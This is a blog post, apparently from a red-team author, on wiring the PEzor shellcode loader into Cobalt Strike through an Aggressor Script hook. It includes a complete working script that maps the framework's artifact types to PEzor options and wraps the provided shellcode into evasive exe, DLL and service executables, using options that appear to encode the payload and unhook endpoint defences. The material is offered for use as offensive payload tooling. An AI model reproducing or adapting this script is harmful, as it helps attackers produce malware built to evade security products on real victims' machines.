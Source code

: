 ```yaml
---
layout: default
---
```


_**Feb 17, 2021**_

# Generating Custom Cobalt Strike Artifacts with PEzor

Let's continue our journey with [Cobalt Strike](https://www.cobaltstrike.com/) and [PEzor](https://github.com/phra/PEzor) by integrating it via [Aggressor Scripts' Hooks](https://www.cobaltstrike.com/aggressor-script/hooks.html) in order to generate custom artifacts that will be seamlessy used by the framework when generating payloads on the fly.

![PEzor v2.1.0](../assets/images/pezor-v2.1.0.jpg "PEzor v2.1.0")

## Motivation

When implementing the `execute-inmemory` functionality, described in the [previous post](https://iwantmore.pizza/posts/PEzor2.html), I had to implement a custom [Sleep](http://sleep.dashnine.org/manual/) subroutine to convert the provided executable into a [Reflective DLL](https://github.com/stephenfewer/ReflectiveDLLInjection) or a .NET assembly.
But wouldn't be nice if we can reuse the same mechanism in order to build custom artifacts used by built-in and post-exploitation modules?

## Aggressor Scripts' Hooks

The Cobalt Strike framework exposes APIs to developers for integrating custom, external tooling within its payload generation flow.
In particular, we are interested in the [EXECUTABLE_ARTIFACT_GENERATOR](https://www.cobaltstrike.com/aggressor-script/hooks.html#EXECUTABLE_ARTIFACT_GENERATOR) hook since we want to customize binary artifacts generated by the framework when executing post-exploitation modules.
By overriding the default internal behaviour, we are able to customize the artifacts in a completely trasparent way so that existing aggressor scripts using the [artifact_payload](https://www.cobaltstrike.com/aggressor-script/functions.html#artifact_payload) and [artifact_stager](https://www.cobaltstrike.com/aggressor-script/functions.html#artifact_stager) functions will continue to work as expected while benefiting of functionalities provided by external tooling.

## Source Code

By checking out the source of the official [Artifact Kit](https://www.cobaltstrike.com/help-artifact-kit), we can understand how to override the default behaviour by declaring the [EXECUTABLE_ARTIFACT_GENERATOR](https://www.cobaltstrike.com/aggressor-script/hooks.html#EXECUTABLE_ARTIFACT_GENERATOR) hook.
The framework is invoking the code associated with the hook by passing in two arguments:

- `$1` - the filename of one of the default artifacts' templates to hint about the desired format
    - `artifact32big.dll`
    - `artifact32.dll`
    - `artifact32big.exe`
    - `artifact32.exe`
    - `artifact32svcbig.exe`
    - `artifact32svc.exe`
    - `artifact64big.x64.dll`
    - `artifact64big.exe`
    - `artifact64.exe`
    - `artifact64svcbig.exe`
    - `artifact64svc.exe`
    - `artifact64.x64.dll`
- `$2` - the shellcode to be executed by the generated artifact

Since we are integrating a fully featured shellcode loader that implements all the required output formats of the framework, we can entirely skip using the official [Artifact Kit](https://www.cobaltstrike.com/help-artifact-kit) by using our own templates. (_in this case the ones shipped with PEzor_)

Here's the main source code of the hook:

```perl
include(script_resource("utils.cna"));
include(script_resource("PEzor.cna"));

# Artifact Kit Integration Script

# Windows Executables and DLLs
#
# Arguments
# 	$1 = artifact file (e.g., artifact32.exe)
# 	$2 = shellcode
# Return 
#	our generated artifact
set EXECUTABLE_ARTIFACT_GENERATOR {
	local('$opts $format $payload $resource $tmpfile');

	($resource, $payload) = @_;

	$tmpfile = get_random_temp_filename();
	write_file($tmpfile, $payload);
	$opts = "-sgn -unhook";

	if ($resource eq "artifact32big.dll") {
		$format = "-32 -format=dll";
	} else if ($resource eq "artifact32.dll") {
		$format = "-32 -format=dll";
    } else if ($resource eq "artifact32big.exe") {
		$format = "-32 -format=exe";
	} else if ($resource eq "artifact32.exe") {
		$format = "-32 -format=exe";
	} else if ($resource eq "artifact32svcbig.exe") {
		$format = "-32 -format=service-exe";
	} else if ($resource eq "artifact32svc.exe") {
		$format = "-32 -format=service-exe";
	} else if ($resource eq "artifact64big.exe") {
		$format = "-64 -format=exe";
	} else if ($resource eq "artifact64big.x64.dll") {
		$format = "-64 -format=dll";
	} else if ($resource eq "artifact64.exe") {
		$format = "-64 -format=exe";
	} else if ($resource eq "artifact64svcbig.exe") {
		$format = "-64 -format=service-exe";
	} else if ($resource eq "artifact64svc.exe") {
		$format = "-64 -format=service-exe";
	} else if ($resource eq "artifact64.x64.dll") {
		$format = "-64 -format=dll";
	}

	return read_file(execute_PEzor("$format $opts $tmpfile"));
}
```

As we can see from the source, we are mapping the filenames used internally to PEzor command line options in order to generate the artifact in the appropriate output format. 
The complete, updated aggressor scripts can be found in the [/aggressor](https://github.com/phra/PEzor/tree/master/aggressor) folder on the PEzor repository.
